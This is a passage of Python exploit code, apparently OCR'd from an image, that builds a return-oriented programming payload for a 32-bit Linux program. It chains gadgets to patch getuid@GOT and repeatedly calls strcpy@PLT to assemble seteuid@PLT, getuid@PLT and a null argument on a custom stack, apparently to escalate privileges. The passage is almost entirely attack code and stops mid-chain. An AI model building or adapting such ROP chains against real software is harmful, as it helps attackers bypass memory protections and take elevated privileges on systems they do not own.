 ``` python
buf += conv(edi)              #edi
buf += conv(dummy)
buf += conv(g5)               #pop ebx; ret;
buf += conv(ebx)              #ebx
buf += conv(g4)               #mov 0x34(%esp),%eax; ...
for num in range(0,11):
 buf += conv(dummy)
buf += conv(g2)               #pop ebx; pop ebp; ret;
ebx = 0xaaa99b40              #getuid@GOT-0x5d5b04c4
buf += conv(ebx)
buf += conv(off)
buf += conv(g1)               #addl %eax, 0x5D5B04C4(%ebx); ret;
#Custom Stack
#Below stack frames are for strcpy (to copy seteuid@PLT to custom stack)
cust_esp += 4                 #Increment by 4 to get past Dummy EBP.
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct1)
#Below stack frames are for strcpy (to copy getuid@PLT to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct1)
#Below stack frames are for strcpy (to copy seteuid arg  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
```